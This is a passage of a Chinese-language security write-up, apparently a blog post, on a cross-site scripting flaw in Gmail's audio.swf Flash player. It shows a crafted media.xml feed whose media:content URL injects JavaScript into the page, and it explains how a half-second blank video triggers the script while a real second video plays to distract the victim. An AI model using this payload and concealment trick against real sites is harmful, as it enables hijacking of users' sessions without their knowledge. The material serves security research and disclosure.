 现在打开 https://mail.google.com/mail/html/audio.swf?playerMode=normal&mediarss=http://localhost/gmail/media.xml&autoplay=true 我们惊喜地发现 1.flv 被成功地载入了, 看来 swf 对于从 mediarss 中传入的 videoUrl, 并没有类似对 url 中传入 videoUrl 值的一个有效性验证, 短板理论在这里发挥了作用:)

为了更加完美地利用, 我们继续对 media.xml 进行一些小小的修改.

```
<rss version="2.0">
        <channel>
            <title>Google Video - Google Video top100 new</title>
            <link>http://video.google.com</link>
            <description>Google Video's top new videos.</description>
            <generator>Google Video</generator>
            <image>
                <title>Google Video top100 new</title>
                <link>http://video.google.com</link>
                <url>http://video.google.com/common/google_logo_small.jpg</url>
                <width>100</width>
                <height>37</height>
            </image>
            <item>
                <title>rubia</title>
                <link>http://video.google.com/videoplay?docid=-3406925506469882756&sourceid=top100newfeed</link>
                <guid>http://video.google.com/videoplay?docid=-3406925506469882756</guid>;
                <pubDate>Sun, 21 May 2006 17:00:00 PDT</pubDate>
                <description/>
                <author>individual</author>
                <media:group>
                    <media:content url="http://localhost/gmail/1.flv?');function FlashRequest(){alert(document.domain)}//" type="video/x-flv" medium="video" expression="full" duration="68" width="320" height="240"/>
                </media:group>
            </item>
            <item>
                <title>rubia</title>
                <link>http://video.google.com/videoplay?docid=-3406925506469882756&sourceid=top100newfeed</link>
                <guid>http://video.google.com/videoplay?docid=-3406925506469882756</guid>;
                <pubDate>Sun, 21 May 2006 17:00:00 PDT</pubDate>
                <description/>
                <author>individual</author>
                <media:group>
                    <media:content url="http://localhost/gmail/2.flv" type="video/x-flv" medium="video" expression="full" duration="68" width="320" height="240"/>
                </media:group>
            </item>
        </channel>
    </rss> 
```

其中 1.flv 是一段黑色背景, 无任何内容, 长 0.5 秒的视频, 播放 1.flv 结束后, 触发了事件, 通过 getURL 执行了 js 脚本, 与此同时,swf 开始播放 2.flv, 这是一段真正的有内容的视频, 他可以为我们争取到足够的时间进行一些 dirty work 了. 那么对于点开视频的人来说, 这段时间内究竟发生了什么呢, 他只是照常点了一个连接,发现是一段有意思的小视频, 可能这段视频前面有 0.5 秒的停滞,但又有谁会注意到呢?
